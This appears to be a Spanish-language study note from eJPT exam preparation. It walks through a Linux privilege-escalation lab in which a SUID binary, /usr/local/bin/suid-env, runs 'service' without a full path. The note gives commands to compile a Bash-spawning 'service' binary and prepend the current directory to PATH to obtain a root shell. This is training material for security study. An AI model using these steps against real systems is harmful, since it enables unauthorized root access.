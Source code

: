 - El ejecutable /usr/local/bin/suid-env puede ser explotado debido a que hereda la variable de entorno PATH del usuario e intenta ejecutar programas sin especificar una ruta absoluta.

- First, execute the file and note that it seems to be trying to start the apache2 webserver:

```
/usr/local/bin/suid-env
```

- Ejecute cadenas en el archivo para buscar cadenas de caracteres imprimibles:

```
strings /usr/local/bin/suid-env
```

- Una línea ("service apache2 start") sugiere que se está llamando al ejecutable del servicio para iniciar el servidor web, sin embargo, no se está utilizando la ruta completa del ejecutable (/usr/sbin/service).

- Compile el código ubicado en /home/user/tools/suid/service.c en un ejecutable llamado servicio. Este código simplemente genera un shell Bash:

```
gcc -o service /home/user/tools/suid/service.c
```

- Anteponga el directorio actual (o donde se encuentra el nuevo ejecutable del servicio) a la variable PATH y ejecute el ejecutable suid-env para obtener un shell raíz:

```
PATH=.:$PATH /usr/local/bin/suid-env
```

enlace:
[[Preparacion-Ejpt]]
[[SUID - SGID Executables  Known - Exploits]]
[[SUID - SGID Executables - Shared Object Injection]]
[[SUID - SGID Executables - Abusing Shell Features (1)]]
[[SUID - SGID Executables - Abusing Shell Features (2)]]